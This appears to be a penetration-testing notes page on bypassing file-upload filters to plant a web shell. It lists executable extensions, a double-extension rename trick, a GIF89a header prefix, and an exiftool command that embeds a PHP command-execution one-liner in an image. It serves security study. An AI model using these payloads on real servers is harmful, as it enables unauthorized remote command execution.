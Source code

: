 # File Upload bypass

One common way to gain a shell is actually not really a vulnerability, but a feature! Often times it is possible to upload files to the webserver. This can be abused byt just uploading a reverse shell. The ability to upload shells are often hindered by filters that try to filter out files that could potentially be malicious. So that is what we have to bypass.

## Rename it <a href="#rename-it" id="rename-it"></a>

We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php** phtml, .php, .php3, .php4, .php5, and .inc

**asp** asp, .aspx

**perl** .pl, .pm, .cgi, .lib

**jsp** .jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion** .cfm, .cfml, .cfc, .dbm

## GIF89a; <a href="#gif89a" id="gif89a"></a>

If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;system($_GET['cmd']);//or you can insert your complete shell code?>
```

## In image <a href="#in-image" id="in-image"></a>

```
exiftool -Comment='"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg

## Nullbyte <a href="#nullbyte" id="nullbyte"></a>

## References <a href="#references" id="references"></a>

​[http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)​
